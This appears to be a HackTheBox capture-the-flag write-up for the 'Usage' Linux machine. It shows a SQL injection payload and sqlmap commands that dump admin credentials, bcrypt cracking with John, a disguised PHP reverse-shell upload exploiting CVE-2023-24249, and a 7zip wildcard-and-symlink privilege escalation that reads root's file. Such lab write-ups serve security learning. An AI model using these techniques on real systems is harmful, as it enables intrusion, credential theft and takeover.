 ```yaml
---
title: Usage
tags:
  - Linux
  - CVE
  - Wildcard
  - HackTheBox
---
```

![](Pasted%20image%2020240501234511.png)

## Reconnaissance

Firstly, I added the new host to my known ones:

```shell
sudo echo "10.10.11.18 usage.htb" | sudo tee -a /etc/hosts
```

Secondly, I started performing an `Nmap` scan with:

```shell
nmap -sC -T4 -p- usage.htb > sC.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 22:05 CEST
Nmap scan report for usage.htb (10.10.11.18)
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http
|_http-title: Daily Blogs

Nmap done: 1 IP address (1 host up) scanned in 17.41 seconds
```

Then I tried to use dirsearch but found nothing interesting, so I decided to read the code. While doing this I visualized another domain: `admin.usage.htb`, 

![](Pasted%20image%2020240501234847.png)

so I added it to the known hosts:

```shell
sudo echo "10.10.11.18 admin.usage.htb" | sudo tee -a /etc/hosts
```

When I visited the new domain I found an admin login panel:

![](Pasted%20image%2020240501235015.png)

Then I tried to do a login bypass but I didn't get anything 🤕.
After searching quite a lot I tried the "Reset password" option of the main domain (having created an account before doing it) and then I performed manual sql injections. The one successful was:

```sql
example@example.test' AND 1==1;--
```

So I captured the request with **Burpsuite**:

```html
POST /forget-password HTTP/1.1
Host: usage.htb
Content-Length: 96
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://usage.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.9
Referer: http://usage.htb/forget-password
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6IkpVektaMURBeHJia1ZZeVpCdDhsTkE9PSIsInZhbHVlIjoiTmhkVU5lRm9zSkFNNTNGQzlxRDZMY2ZNTytBNEVaeHk0S3FNdzd4NkhqWjVlTDRDQUpJZ3lCUmRDQVFtN0pkN3p2Y2QwQklmRC81a3FyRWw3SG9ibllmZUtORHFMRHl4RkljK1doK3pkd1RCOG1UNkZkWDFKbUhBM01mcWYyWEoiLCJtYWMiOiJjMmY3YmJhYjI0ZTZhMjgwYzVkZmNhZmE0NTQyMjY5MGIwMWFmOWVlMGY3N2ExNDY5YzA1N2ZiOGM5YWU2YzY5IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkUvOVFmWllQZmhhTzdiS3ZSalMzM0E9PSIsInZhbHVlIjoiUFgwV0dqN0h2aWNGczViZmRDU08vZkNMOERnRUZuQ2RLaEd5REJUZGNxaVVzR1lqOWt2MnhDTCtHd29qNDY2dU10R3YvbStRUmV2RitpcE5JNk5xbVB0Vnd2WHNlWjBiV3p1QW4zc3BPSlB1WnZuNVFsZXh1cXNwNUpjeDRMU28iLCJtYWMiOiI3MmQ3NWI0YjhmMzQ4NTFjM2Q5M2M5ODBhMjNlZjI4M2M0MmI2OWI2ZjEzNjk4MDIzYmE4ZGJmYjQ4Mjc3MWNjIiwidGFnIjoiIn0%3D
Connection: close

_token=VKIqVeHHgY3azyNB5HmGBngdHk5IPZgiB5srIcBU&email=example@example.test
```

and decided to use SQLMap to automate the process:
- Visit [SQLMap 🪲](/notes/tools/Sqlmap.md) note for more commands
- As I know that AND worked, I used BUT technique

```shell
sqlmap -r request.txt -p 'email' --dbms=mysql --level=3 --risk=3 --batch --technique=BUT --dbs --dump --threads 3

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT --batch --threads 3 -D usage_blog -T admin_users  --dump

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT --batch --threads 3 -D usage_blog -T admin_users -C name,username,password --dump
```

 I obtained this creds: `admin:$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`, so it was time for brute forcing.

First I checked what kind of hash was it in [hashes.com](https://hashes.com/en/tools/hash_identifier)

Then I decided to use John the Ripper for this:

```shell
john hash.txt --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt
```

After gaining the password, I logged into the initial admin domain:

![](Pasted%20image%2020240502000034.png)

## Weaponization

After a bit of research I found the [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/

## Exploitation

First, I created in my local machine an image with a php code inside of it like:
- Check [Reverse shells 👾](/notes/reverse_shells.md) for the shell

```shell
echo "shell..." > shell.jpg
```

Then I went to the `Administrator >> Setting` at top right on the screen

![](Pasted%20image%2020240502000359.png)

Now what I did was to catch the request of changing the image with burpsuite by the one I previously created and modified the following:

![](Pasted%20image%2020240502000602.png)

![](Pasted%20image%2020240502000625.png)

And then I got the reverse shell :D


### User flag

```shell
cat /home/dash/user.txt
XXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation

First of all, I pivoted to the other user account, `xander`. To do it, I observed the hidden file `.monitrc` and found the credentials of `xander`.

After loggin as him, I performed:

```shell
sudo -l

Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

So I executed the program and, after arriving to the conclusion of being a 7zip performing a backup using a wildcard, I decided to use this in my favour:

```shell
cd /var/www/html/
touch '@root.txt'
ln -s -r /root/root.txt root.txt
sudo /usr/bin/usage_management # and select the 1st option
```

### Root flag

was obtained in the previous exit of the program

==Machine pwned==

